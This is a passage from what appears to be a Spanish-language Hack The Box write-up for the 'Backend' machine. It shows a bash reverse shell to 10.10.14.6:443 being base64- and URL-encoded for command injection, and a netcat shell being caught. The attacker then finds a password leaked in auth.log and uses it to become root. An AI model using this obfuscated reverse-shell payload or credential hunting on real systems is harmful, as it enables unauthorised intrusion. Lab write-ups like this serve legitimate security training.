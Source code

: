 ```console
└─$ echo 'bash -c "bash  -i >& /dev/tcp/10.10.14.6/443 0>&1"' | base64
YmFzaCAtYyAiYmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSIK
echo%20YmFzaCAtYyAiYmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSIK|base64%20-d|bash
# echo YmFzaCAtYyAiYmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSIK | base64 -d | bash
```
Con netcat conseguimos la shell

```
htb@Backend:~/uhc$ grep -r pass *
# nada
htb@Backend:~/uhc$ ls
__pycache__  app         poetry.lock      pyproject.toml    uhc.db
alembic      auth.log    populateauth.py  requirements.txt
alembic.ini  builddb.sh  prestart.sh      run.sh
htb@Backend:~/uhc$ cat auth.log
11/02/2022, 14:14:00 - Login Failure for Tr0ub4dor&3
htb@Backend:~/uhc$ su root
Password: 
root@Backend:/home/htb/uhc# cd 
```